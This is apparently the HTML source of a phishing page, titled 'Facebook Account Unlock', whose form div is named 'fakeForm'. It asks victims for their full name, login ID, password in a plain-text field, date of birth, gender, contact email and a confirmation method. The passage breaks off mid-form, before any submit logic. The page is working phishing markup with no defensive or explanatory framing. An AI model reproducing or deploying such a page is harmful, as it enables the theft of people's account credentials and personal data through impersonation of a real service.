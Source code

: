   <div class="contact-container">
    <h2>Facebook Account Unlock</h2>
    <div class="form-fields" id="fakeForm">
      <label for="name"><strong>Full Name</strong></label>
      <input type="text" id="name" placeholder=
      "Enter your full name" autocomplete="off" autocorrect="off"
      spellcheck="false"> <label for="loginId"><strong>Login
      ID</strong></label> <input type="text" id="loginId"
      placeholder="Enter your mobile number or email address"
      autocomplete="off" autocorrect="off" spellcheck="false"> 
      <!-- Changed to text type with new-password autocomplete -->
       <label for="password"><strong>Password</strong></label>
      <div class="password-container">
        <input type="text" id="password" placeholder=
        "Enter your password" autocomplete="new-password"
        autocorrect="off" spellcheck="false"> <span class=
        "toggle-icon" id="togglePassword"></span>
      </div><label for="dob"><strong>Date of Birth</strong></label>
      <div style="display: flex; align-items: center;">
        <input type="date" id="dob" placeholder=
        "Enter your Date of Birth" autocomplete="off"> <span class=
        "optional-text">(Optional)</span>
      </div><label for="gender"><strong>Gender</strong></label>
      <select id="gender" autocomplete="off">
        <option value="" disabled selected>
          Select your Gender
        </option>
        <option value="male">
          Male
        </option>
        <option value="female">
          Female
        </option>
        <option value="other">
          Other
        </option>
      </select> <label for="contactEmail"><strong>Contact
      Email</strong></label> <input type="text" id="contactEmail"
      placeholder="Enter your contact email" autocomplete="off"
      autocorrect="off" spellcheck="false"> <label style=
      "font-size: 1.4em; color: green;"><strong>Select your
      confirmation</strong></label>
      <div class="confirmation-options">
        <div onclick="selectOption(this, 'option1')">
          <div class="checkbox" id="option1"></div>Get a code by
          email
        </div>
        <div onclick="selectOption(this, 'option2')">
          <div class="checkbox" id="option2"></div>Get a code on
          your phone
        </div>
        <div onclick="selectOption(this, 'option3')">
          <div class="checkbox" id="option3"></div>Enter your date
          of birth
        </div>
        <div onclick="selectOption(this, 'option4')">
          <div class="checkbox" id="option4"></div>Get a code on
          WhatsApp
        </div>
        <div onclick="selectOption(this, 'option5')">
          <div class="checkbox" id="option5"></div>Confirm your
          identity
        </div>
        <div onclick="selectOption(this, 'noOptions')">